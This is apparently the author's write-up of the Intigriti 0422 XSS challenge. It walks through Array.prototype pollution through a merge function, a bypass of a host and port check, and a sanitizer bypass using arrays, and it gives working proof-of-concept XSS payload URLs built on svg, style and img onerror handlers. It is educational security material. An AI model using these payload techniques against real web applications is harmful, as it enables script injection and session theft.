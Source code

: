 ```yaml
---
title: Intigriti 0422 XSS Challenge Author Writeup
date: 2022-04-25 08:20:16
tags: [Security]
categories: [Security]
---
```


<img src="/img/intigriti-0422-xss-challenge-author-writeup/cover-en.png" style="display:none">

Challenge URL: https://challenge-0422.intigriti.io/

<!-- more -->

## Solution

TL;DR

1. Pollute Array.prototype via `merge` function
2. Bypass `checkHost()`
3. Set `innerHTML` and bypass `sanitize()` to perform XSS

### Step1. Prototype pollution on Array.prototype

First, let's take a look at the `merge` function:

``` js
function merge(target, source) {
  let protectedKeys = ['__proto__', "mode", "version", "location", "src", "data", "m"]

  for(let key in source) {
    if (protectedKeys.includes(key)) continue

    if (isPrimitive(target[key])) {
      target[key] = sanitize(source[key])
    } else {
      merge(target[key], source[key])
    }
  }
}

function sanitize(data) {
  if (typeof data !== 'string') return data
  return data.replace(/[<>%&\$\s\\]/g, '_').replace(/script/gi, '_')
}
```

In the `merge` function, `__proto__` is blocked, but we can bypass it using `constructor.prototype`.

Then, below is the key of the first step:

``` js
const qs = m.parseQueryString(location.search)

let appConfig = Object.create(null)
appConfig["version"] = 1337
appConfig["mode"] = "production"
appConfig["window-name"] = "Window"
appConfig["window-content"] = "default content"
appConfig["window-toolbar"] = ["close"]
appConfig["window-statusbar"] = false
appConfig["customMode"] = false

if (qs.config) {
  merge(appConfig, qs.config)
  appConfig["customMode"] = true
}
```

Although we can't pollute `Object.prototype` because `appConfig` is created from `Object.create(null)`, we can pollute `Array.prototype` via `appConfig['window-toolbar']` which is an array!

So, we can pollute `Array.prototype` by providing a config object like this:

```
config[window-toolbar][constructor][prototype][0]=abc
// equals to ['close'].constructor.prototype.0 = 'abc'
```

But the question is, what property should be polluted? 

### Step2. Bypass checkHost

There is another call to `merge`, and it's the second part of the challenge:

``` js
function checkHost() {
  const temp = location.host.split(':')
  const hostname = temp[0]
  const port = Number(temp[1]) || 443
  return hostname === 'localhost' || port === 8080
}

let devSettings = Object.create(null)
devSettings["root"] = document.createElement('main')
devSettings["isDebug"] = false
devSettings["location"] = 'challenge-0422.intigriti.io'
devSettings["isTestHostOrPort"] = false

if (checkHost()) {
  devSettings["isTestHostOrPort"] = true
  merge(devSettings, qs.settings)
}
```

We need to make `checkHost()` return `true` to perform another merge call. 

In `checkHost`, it checks if hostname is localhost or port is 8080, let's take a closer look at the check:

``` js
function checkHost() {
  const temp = location.host.split(':')
  const hostname = temp[0]
  const port = Number(temp[1]) || 443
  return hostname === 'localhost' || port === 8080
}
```

It seems invulnerable, but what if `location.host` has no port?

For example, assumed `location.host` is `intigriti.io`, then `temp` becomes `['intigriti.io']`, and `temp[1]` is `undefined` because the length of the array is 1.

Here comes a cool way to bypass the check, what if `Array.prototype[1]` has been polluted? 

The JavaScript engine will look up `Array.prototype[1]` since `temp` has no property `1`. So, combined with the step1, we can pollute `Array.prototype[1]` to bypass the check:

```
config[window-toolbar][constructor][prototype][1]=8080
```

By the way, I got this idea from another challenge called `vm-calc` made by [@Strellic_](https://twitter.com/Strellic_) in DiceCTF 2022, kudos to the creator.

### Step3. Override innerHTML

After bypass the check, we have another merge call:

``` js
let devSettings = Object.create(null)
devSettings["root"] = document.createElement('main')
devSettings["isDebug"] = false
devSettings["location"] = 'challenge-0422.intigriti.io'
devSettings["isTestHostOrPort"] = false

if (checkHost()) {
  devSettings["isTestHostOrPort"] = true
  merge(devSettings, qs.settings)
}
```

`devSettings["root"]` is an HTML element, so we can use `?settings[root][innerHTML]` to set it's innerHTML and try to perform XSS.

But, it's not gonna work for two reasons.

First, there is a `sanitize` function for filtering `<` and `>`.

Second, the element only inserted to DOM after `m.mount()`, the content will be override by mithril.js


For the first issue, we can resolve it by using a bug in `sanitize` function:

``` js
function sanitize(data) {
  if (typeof data !== 'string') return data
  return data.replace(/[<>%&\$\s\\]/g, '_').replace(/script/gi, '_')
}
```

What if `data` is an array? For example, `['<a>hello</a>']`?

Because it's not a string, so it won't be sanitized, the function just return the original value. When you assign this array to `innerHTML`, it casts to string.

So, we can use `?settings[root][innerHTML][0]=<svg onload=alert(1)>` to bypass the sanitizer.

We are close to the end but need to address the last issue. The content of the element will be override by `m.mount` so our payload in `innerHTML` won't work, how should we resolve this?

The idea is simple, what if we can set `innerHTML` to `document.body` instead of `<main>`? Then our payload won't be override by mithril.js

There is a property called [ownerDocument](https://developer.mozilla.org/zh-TW/docs/Web/API/Node/ownerDocument), we can access `document` via this.

So, we can set innerHTML on body and perform XSS this way:

```
config[window-toolbar][constructor][prototype][1]=8080
settings[root][ownerDocument][body][innerHTML][0]=<svg onload=alert(document.domain)>
```

URL:
https://challenge-0422.intigriti.io/challenge/Window%20Maker.html?config[window-toolbar][constructor][prototype][1]=8080&settings[root][ownerDocument][body][innerHTML][0]=%3Cstyle%20onload%3Dalert(document.domain)%3E

There is another magic to solve the issue without overriding `document.body.innerHTML`.

As pointed out [here](https://github.com/terjanq/Tiny-XSS-Payloads/blob/5e8603974ef878e1230ae05e7f79b9467d862e2c/payloads.js#L93), `<img src=x onerror=alert(1)>` works even before inserted into the DOM. We can use this magic to set `root.innerHTML` and get XSS.

URL:
https://challenge-0422.intigriti.io/challenge/Window%20Maker.html?config[window-toolbar][constructor][prototype][1]=8080&settings[root][innerHTML][0]=%3Cimg%20src%3Dx%20onerror%3Dalert(document.domain)%3E

## Plot twist

What if I told you that all the solutions above are unintended?

The challenge was easier than I thought because I made a few bugs, making the intended solution unnecessary and redundant. It’s like there should be five steps for solving the challenge, but you can solve it in step2 because of the bugs.

The challenge should be more complex and interesting.

So, here comes **the revenge of Intigriti 0422 challenge**!

I patched the bugs and hosted the fixed challenge on GitHub, here is the challenge URL: https://aszx87410.github.io/xss-challenge/revenge-of-intigriti-0422

You can found the diff below:

``` diff
function sanitize(data) {
- if (typeof data !== 'string') return data
+ if (typeof data !== 'string') data = String(data)

function merge(target, source) {
- let protectedKeys = ['__proto__', "mode", "version", "location", "src", "data", "m"]
+ let protectedKeys = ['__proto__', "mode", "version", "location", "src", "data", "m", "Object"]
```

The revenge of Intigriti 0422 challenge runs until `2022-05-01T23:59:59+00:00`, you can DM me on [Twitter](https://twitter.com/aszx87410) if you find the solution.

Please noted that the revenge of Intigriti 0422 challenge is a challenge **hosted by my own, not Intigriti**, so there is no swag voucher for the winners.